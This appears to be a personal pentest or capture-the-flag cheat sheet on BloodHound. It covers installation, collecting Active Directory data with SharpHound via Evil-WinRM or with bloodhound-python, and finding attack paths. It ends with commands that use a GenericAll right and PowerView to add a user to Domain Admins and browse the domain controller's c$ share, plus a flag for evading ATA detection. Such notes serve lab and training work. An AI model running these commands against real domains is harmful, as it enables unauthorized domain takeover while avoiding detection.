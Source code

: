 ## Installation on arch linux (may be old)

- install jre openjdk 8

- `export JAVA_HOME="/usr/lib/jvm/java-8-openjdk/jre"`

- `archlinux-java set java8-openjdk/jre`

- `export NEO4J_HOME="/usr/share/java/neo4j"`

- `neo4j console`

- change password if you want

- then launch bloodhound

---

## Launch it

- sudo bloodhound


---

## 2 ways of collecting data from many others : 

### Sharphound and evil winrm

- go to the folder of the sharphound ps1
- connect to the machine with evilwinrm
- then upload sharphound.ps1 and launch it : 
```
upload \<absolute_path_to_the_file\>
$pass = convertto-securestring 'password' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential('user', $pass)
```
- here, do not forget to add the domain the user before if you need to access to a domain (`ipconfig /all dns primary suffix`)
```
Import-Module <path to sharphound.ps1>;
Invoke-BloodHound -CollectionMethod All -Credential $cred -JSONFolder <folder>
```

- Avoid detections like Microsoft Advanced Threat Analytics (ATA) : `-ExcludeDC`


### Use bloodhound-python (bloodhound.py) to do it remotely without having a shell on the machine

- `bloodhound-python -u \<user\>@DOMAIN.DOMAIN -p \<pass\> -ns \<ip of the dns\> -d \<ip of the dc\> -c All`

### Ingest it

- then transfer it on the machine where there's bloodhound installed if needed

- in bloodhound click on import data

- then in the left hand corner, click on the icon and queries

- Select whatever you want (find all domain admins, find shortest paths to domain admins, map domains trusts...)

---

## What to do

- Enter your user then the admin to know if you can go to admin
- Find shortest path to admin
- Find shortest path to kerberoastable user , and if the admin is printed, use GetUSerSPN
- click on the link and then help to know how to go to the next level

---

## Shortest path from a user to another

- Enter the user you owned in the search bar
- Right click on it, owned user
- Enter others in the search bar
- and right click, shortest path to here !!!

---


## Generic all (Link in bloodhound)

With that account owned and the link generic all to domain admins, you have to add it into the Domain Admins group. I’ll upload PowerView.ps1 and import it:
```
*Evil-WinRM* PS C:\programdata> upload PowerView.ps1
Info: Uploading PowerView.ps1 to C:\programdata\PowerView.ps1

*Evil-WinRM* PS C:\programdata> Import-Module .\PowerView.ps1
```

- Now I’ll create a PSCredential object, and then add the user to Domain Admins:

```
*Evil-WinRM* PS C:\programdata> $pass = ConvertTo-SecureString '<pass of the user>' -AsPlainText -Force
*Evil-WinRM* PS C:\programdata> $cred = New-Object System.Management.Automation.PSCredential('<suffix domain name>\<user>', $pass)
*Evil-WinRM* PS C:\programdata> Add-DomainGroupMember -Identity 'Domain Admins' -Members '<user>' -Credential $cred
```

- Tips : for the suffix domain name : `ipconfig /all command`

To find the name of the DC, use this query in bloodhound : `Find Principals with DCSync Rights`, and you'll see the DC :



![4ad65073e0224914bed0d907a7d3fe07.png](../../_resources/3db5d64987fb4f6191d599abe42e7ef2.png)



As the user is now a domain admin, we can access the c$ share on the DC:

```
*Evil-WinRM* PS C:\programdata> net use \\<dc name>.<suffix domain name>\c$ /u:<suffix domain name>\<user> '<pass>'

*Evil-WinRM* PS C:\programdata> dir \\<dc name>.<suffix domain name>\c$\users\
```